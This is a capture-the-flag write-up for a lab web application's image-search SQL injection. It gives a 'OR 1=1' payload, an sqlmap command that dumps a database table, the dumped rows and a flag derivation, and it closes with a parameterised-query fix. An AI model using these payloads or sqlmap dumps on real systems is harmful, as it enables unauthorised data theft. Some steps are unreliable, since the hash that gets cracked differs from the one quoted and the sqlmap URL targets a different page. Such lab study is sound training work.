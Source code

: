 # Sql Injection Images
- In the page /?page=searchimg there is a field to search images by their numbers (ids).

# Vulnerability
- We could imagine the SQL statement in back end is as follows:
```sql 
    SELECT * FROM list_images WHERE id = $_GET['id']
```
- We can enter some malicious input like this: 42 OR 1=1 this statment is always true so it will return ALL rows from the "list_images" table.
- Using 'sqlmap' to dump users data from list_images table:
sqlmap -u "http://192.168.1.38/?page=member&id=1&Submit=Submit#" -D Member_images -T list_images --dump
    
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+

- Notice the comment: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
- Converting 5ff9d0165b4f92b14994e5c685cdce28 to plain text is 'albatroz albatroz'.
- Converting 'albatroz albatroz' to sha256 is f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 Which is Our Flag.

# Fix
- We can prevent this by using prepared statements and parameterized queries.